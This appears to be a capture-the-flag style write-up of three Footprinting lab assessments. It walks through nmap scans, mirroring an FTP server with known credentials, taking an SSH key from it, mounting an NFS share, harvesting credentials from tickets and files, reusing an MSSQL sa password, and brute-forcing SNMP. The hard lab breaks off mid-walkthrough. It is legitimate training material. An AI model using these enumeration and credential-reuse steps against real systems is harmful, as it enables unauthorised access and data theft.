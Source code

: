 ```yaml
---
description: Skills Assessment
---
```


# Footprinting Labs

## Footprinting Lab - Easy

### What is given

* company name: **`Inlanefreight Ltd`**
* given server: **`DNS`**
* found credentials: "**`ceil:qwer1234`**"
* admins have stored a "**`flag.txt`**" file on the server, we should obtain its content

### Questions

#### 1. Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.

**`sudo nmap -sVC 10.129.72.126`**

* 21 ftp - ProFTPD Server (ftp.int.inlanefreight.htb)
* 22 ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
* 53 domain - ISC BIND 9.16.1, dns-nsid: bind.version: 9.16.1-Ubuntu
* 2121 ftp - ProFTPD Server (Ceil's FTP)
* CONCLUSION
  * FTP: 21 is a real FTP server, 2121 is just a proxy to the real one&#x20;
  * SSH: We dont have keys for login, it might be in the FTP server...

dig soa \<IP>

* AUTHORITY SECTION: . 5 IN SOA **`a.root-servers.net`. `nstld.verisign-grs.com`**. 2023091101 1800 900 604800 86400

ssh ceil@10.129.72.126

* "`ceil@10.129.72.126: Permission denied (publickey).`"

ftp 10.129.72.126

* logged in, nothing to be found

**`wget -m --no-passive ftp://ceil:qwer1234@10.129.72.126:2121`**

* downloaded all the FTP files to local machine
* cd 10.129.72.126:2121 -> ls -la (**`.bash_history`**) -> cat **`.bash_history`**
  * `ls -al mkdir ssh cd ssh/ echo "test" > id_rsa id ssh-keygen -t rsa -b 4096 cd .. rm -rf ssh/ ls -al cd .ssh/ cat id_rsa ls a-l ls -al cat id_rsa.pub >> authorized_keys cd .. cd /home cd ceil/ ls -l ls -al mkdir flag cd flag/ touch flag.txt vim flag.txt cat flag.txt ls -al mv flag/flag.txt .`
* cd 10.129.72.126:2121 -> ls -la (**`.ssh`**) -> cd .ssh -> ls -la (**`id_rsa`**)
* **`chmod 600 id_rsa`**
* **`sftp -i id_rsa ceil@10.129.72.126`**
* **`cd ..`**
* **`ls -la`**
* **`cd flag`**
* **`ls`**
* **`get flag.txt`**
* LOCAL machine: **`cat flag.txt`**



## Footprinting Lab - Medium

### What is given

* everyone on the internal network has access to the server
* user named **`HTB`**
* we need to obtain credentials of this user as proof

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.**

**`sudo nmap -sVC 10.129.169.252`**

* 111 rpcbind - version 2-4
* 135 msrpc
* 139 netbios-ssn
* 445 microsoft-ds?
* 2049 mountd 1-3
* 3389 ms-wbt-server - info: WINMEDIUM, Product\_Version: 10.0.17763
* \+ smb host scripts (smb2-security-mode: 311)
* Conclusion:
  * looks like NFS because of rpc

`rpcclient -U "" 10.129.45.189`

* Cannot connect to server. Error was NT\_STATUS\_LOGON\_FAILURE

**`showmount -e 10.129.169.252`**

* ![](<.gitbook/assets/image (12) (1) (1) (1).png>)

`sudo nmap 10.129.169.252 --script nfs* -p111,2049 -sV`

`mkdir target-NFS`

**`sudo mount -t nfs 10.129.169.252:/TechSupport ./target-NFS/ -o nolock`**

cd target-NFS

ls -la => many tickets, but only one with some data

**`cat ticket4238791283782.txt`**

* domain="10.129.2.59:9500"&#x20;
* path=/login
* from="alex.g@web.dev.inlanefreight.htb"
* user="**alex**"
* password="**lol123!mD**"
* port = 25 (SMTP)
* host=smtp.web.dev.inlanefreight.htb

**`remmina`**

* RDP = 10.129.169.252
* username = alex
* password = lol123!mD
* domain = 10.129.2.59:9500

We successfully connected using RDp to alex Windows machine, it contains MSQL Server Management Studio 18, but we dont have access to it...lets find the PW for su user to get access into DB with PW

![](<.gitbook/assets/image (13) (1) (1) (1).png>)![](<.gitbook/assets/image (14) (1) (1) (1).png>)

Searching the alex Windows machine -> c:/users/alex/devshare/important.txt => **`sa:87N1ns@slls83`**

* login doesnt work
* RUN MSSQLServer as ADMIN with found PW (87N1...)
  * we are in the DB
  * New Query -> **`select * from accounts.dbo.devsacc where name = ‘htb’;`**
  * ![](<.gitbook/assets/image (15).png>)



## Footprinting Lab - Hard

### What is given

* MX and management server for the internal network
* server has the function of a backup server for the internal accounts in domain
* user named **`HTB`**

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.**

**`sudo nmap -sVC 10.129.251.207`**

* 22 SSH
* 110 POP3 - Dovecot pop3d
* 143 IMAP - Dovecot imapd (Ubuntu)
* 993 IMAPS?
* 995 POP3S?
* CONCLUSION -> looks like we wanna use what we learned from IMAP/POP3 module...

**`openssl s_client -connect 10.129.251.207:pop3s`**

**`onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.251.207`**

\=> ![](<.gitbook/assets/image (14) (1) (1).png>)

\=> we obtained the hostname \[XXX], lets dive deeper

**`braa XXX@10.129.251.207:.1.3.6.*`**

\=> ![](<.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png>)

\=> we obtained the credentials of a user "tom" - lets try these

**`curl -k 'imaps://10.129.251.207' –user XXX:XXX -v`**

**`1 SELECT INBOX`**



